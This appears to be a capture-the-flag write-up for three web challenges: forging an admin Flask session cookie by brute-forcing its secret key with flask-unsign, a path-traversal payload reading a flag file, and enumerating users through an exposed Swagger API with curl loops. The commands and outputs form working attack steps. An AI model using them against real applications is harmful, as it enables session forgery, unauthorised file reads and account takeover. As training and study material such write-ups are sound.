 ctfd_4c1ae11476ebedc6d65fee8e4bd03af5d2e196f11b7e901ce90615a47d92ac80
# Web
## web1

### flask-unsign
```bash
flask-unsign --decode --cookie '.eJw9zT0OwyAMQOG7eGZwwPzlMpVjTFSpIVKAqcrdm6nrG773hc-571pe7wbruKYaaGcThRWyJuuXyBI45-pQLFWm4ClKjSE4b-uSkHlzZUOKriZUQpIkmUtCBwb64DH7Y3E5noGB2fVqfOg_3T_epSb5.ZeJE3Q.DJlgFNkiP09zc8GD9sZQkc124Qs'
```
	{'logged_in': True, 'nonce': '9e82517ac6a99f30c24fa46547cf766352f180aab3db0473f80e404c8c9ad803', 'status': 'admin', 'username': 'admin'}

#### bruteforce le cookie damin
#### create wordlist
```python
for i in range(100000000):

    print(str(i).rjust(8, '0'))
```

```bash
flask-unsign --wordlist wdl.txt --unsign --cookie '.eJw9zT0OwyAMQOG7eGZwwPzlMpVjTFSpIVKAqcrdm6nrG773hc-571pe7wbruKYaaGcThRWyJuuXyBI45-pQLFWm4ClKjSE4b-uSkHlzZUOKriZUQpIkmUtCBwb64DH7Y3E5noGB2fVqfOg_3T_epSb5.ZeJE3Q.DJlgFNkiP09zc8GD9sZQkc124Qs' --no-literal-eval
```
	[*] Session decodes to: {'logged_in': True, 'nonce': '9e82517ac6a99f30c24fa46547cf766352f180aab3db0473f80e404c8c9ad803', 'status': 'admin', 'username': 'admin'}
	[*] Starting brute-forcer with 8 threads..
	[+] Found secret key after 7808 attempts
	b'00007676'

secret key trouver
#### signé un cookie non connecté avec le secret key
```bash
flask-unsign --decode --cookie '.eJwNzEsOwyAMBcC7eJ0FxnziXKZy4AVVqohUYFX17u0cYD70ultDfTw7HfO9sFG_ewEd5EXzGVGEkWJF2tUsMoLnCka99NTMYlE0qBdXsmXjeMkuSV0wRxuNaXON_9UWxqTvDz3LIJM.ZeJZVQ.At8byR-5X7Pu2XZD3Xao0ovbdsI'
```
	{'logged_in': True, 'nonce': '2397b5ec31e65de689aa51e421de1edf9b9713a53949230c7a7a15f3836904a0', 'status': 'guest'}
                                                                                                                                                            
```bash
flask-unsign --sign --cookie "{'logged_in': True, 'nonce': '2397b5ec31e65de689aa51e421de1edf9b9713a53949230c7a7a15f3836904a0', 'status': 'admin', 'username': 'admin'}" --secret '00007676'
```
	.eJw9zTsOhDAMANG7uE4Rx_lgLrMyiUFIECSSVCvuvlTbTvHmC8e1bVo-e4W530MN1KtmhRkccVqCZkKNoWicWCSgeodFUcvKCyckCcSeHdmcJAmGlSaKbL1YMNC69NFeS8r5DgyMpneVU__p-QHikSbL.ZeJa-Q.r_qw7aeLexUSFaig4cEFKityKXo

## web2
LFI sur burpsuite
```
/api/notes/63dafad2-e112-4982-980c-d1c64b9cc07f/../../../../home/user/flag.txt
```

## web 3
In source code
```
<!-- 
                                Note for admins : 
    For the sake of security, remove the bloody swagger UI from the production build.
    -->
```

On a swagger
```
curl http://worker06.gcc-ctf.com:12599/api/v1/user/1
```
	{"admin":false,"id":1,"username":"danny_hernandez114"}

```
for i in {1..100};do curl "http://worker05.gcc-ctf.com:12210/api/v1/user/$i";done > userList
```

```
cat userList | grep true 
```
	{"admin":true,"id":9,"username":"jessica_cruz82"}
	{"admin":true,"id":24,"username":"megan_bell139"}
	{"admin":true,"id":31,"username":"joseph_torres69"}

